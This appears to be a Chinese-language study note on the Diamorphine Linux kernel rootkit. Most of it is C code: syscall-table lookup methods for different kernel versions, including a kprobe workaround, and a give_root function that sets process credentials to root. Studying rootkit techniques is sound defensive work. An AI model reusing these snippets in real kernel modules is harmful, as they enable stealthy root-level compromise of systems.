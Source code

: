 # Diamorphine

### syscall_table 获取

##### LINUX_VERSION_CODE 《= KERNEL_VERSION(4, 4, 0)

暴力搜索：

```c
	unsigned long int i;

	for (i = (unsigned long int)sys_close; i < ULONG_MAX;
			i += sizeof(void *)) {
		syscall_table = (unsigned long *)i;

		if (syscall_table[__NR_close] == (unsigned long)sys_close)
			return syscall_table;
	}
	return NULL;
```

##### LINUX_VERSION_CODE > KERNEL_VERSION(4, 4, 0) &&  LINUX_VERSION_CODE < KERNEL_VERSION(5,7,0)

```c
syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
```

##### LINUX_VERSION_CODE >= KERNEL_VERSION(5,7,0)

当内核版本 >= KERNEL_VERSION(5,7,0) 时候，kallsyms_lookup_name 不在导出，需要通过 kprobe获取其地址：

```c
#include <linux/kprobes.h>
static struct kprobe kp = {
	    .symbol_name = "kallsyms_lookup_name"
};

typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

kallsyms_lookup_name_t kallsyms_lookup_name;
register_kprobe(&kp);
kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
unregister_kprobe(&kp);

syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
```

### 权限提升

```c
void
give_root(void)
{
	#if LINUX_VERSION_CODE < KERNEL_VERSION(2, 6, 29)
		current->uid = current->gid = 0;
		current->euid = current->egid = 0;
		current->suid = current->sgid = 0;
		current->fsuid = current->fsgid = 0;
	#else
		struct cred *newcreds;
		newcreds = prepare_creds();
		if (newcreds == NULL)
			return;
		#if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 5, 0) \
			&& defined(CONFIG_UIDGID_STRICT_TYPE_CHECKS) \
			|| LINUX_VERSION_CODE >= KERNEL_VERSION(3, 14, 0)
			newcreds->uid.val = newcreds->gid.val = 0;
			newcreds->euid.val = newcreds->egid.val = 0;
			newcreds->suid.val = newcreds->sgid.val = 0;
			newcreds->fsuid.val = newcreds->fsgid.val = 0;
		#else
			newcreds->uid = newcreds->gid = 0;
			newcreds->euid = newcreds->egid = 0;
			newcreds->suid = newcreds->sgid = 0;
			newcreds->fsuid = newcreds->fsgid = 0;
		#endif
		commit_creds(newcreds);
	#endif
}
```

# 资料

Diamorphine

https://github.com/m0nad/Diamorphine